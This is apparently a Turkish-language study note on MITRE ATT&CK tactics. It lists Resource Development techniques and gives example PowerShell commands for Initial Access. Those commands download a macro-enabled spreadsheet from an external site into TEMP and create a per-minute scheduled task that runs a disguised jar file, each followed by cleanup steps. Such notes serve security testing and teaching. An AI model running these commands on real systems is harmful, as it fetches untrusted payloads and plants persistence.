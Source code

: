 ## **Resource Development (TA0042)**

Saldırıyı desteklemek için gerekli kaynaklar oluşturulur. Bu tür kaynaklar arasında altyapı, hesaplar veya yetenekler yer alır. Bu kaynaklar, Komuta ve Kontrolü desteklemek için satın alınan domainleri, ilk Erişimin bir parçası olarak phishing için e-posta hesaplarını kullanmak veya defence evasiona yardımcı olmak için code sign sertifikalarını çalmak gibi saldırı yaşam döngüsünün diğer aşamalarına yardımcı olmak için saldırgan tarafından kullanılabilir.

1. **Acquire Access (T1650)**
2. **Acquire Infrastructure (T1583)**
3. **Compromise Accounts (T1586)**
4. **Compromise Infrastructure (T1584)**
5. **Develop Capabilities (T1587)**
6. **Establish Accounts (T1585)**
7. **Obtain Capabilities (T1588)**
8. **Stage Capabilities (T1608)**

## **Initial Access (TA0001)**

Hedef sisteme ilk erişimin kazanılır. Hedef sistemde yer edinmek için kullanılan teknikler arasında phishing ve public web sunucularındaki zafiyetlerden yararlanma yer alır.

1. **Phishing (T1566)**
    
    Phishing ile ilk erişim elde edilmeye çalışılır.
    
    1. **Spearphishing Attachment (T1566.001)**
        
        Örnek komut:
        
        ```powershell
        $url = 'https://adilsoybali.com/Dosya.xlsm'
        [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
        Invoke-WebRequest -Uri $url -OutFile $env:TEMP\Dosya.xlsm
        ```
        
        ```powershell
        Remove-Item $env:TEMP\Dosya.xlsm -ErrorAction Ignore
        ```
        
2. **Supply Chain Compromise (T1195)**
    
    Ürün-hizmet teslim mekanizması manipule edilir.
    
    Örnek komut:
    
    ```powershell
    copy %temp%\ExplorerSync.db %temp%\..\Microsoft\ExplorerSync.db
    schtasks /create /tn ExplorerSync /tr "javaw -jar %temp%\..\Microsoft\ExplorerSync.db" /sc MINUTE /f
    ```
    
    ```powershell
    schtasks /delete /tn ExplorerSync /F 2>null
    del %temp%\..\Microsoft\ExplorerSync.db 2>null
    del %temp%\ExplorerSync.db 2>null
    ```
    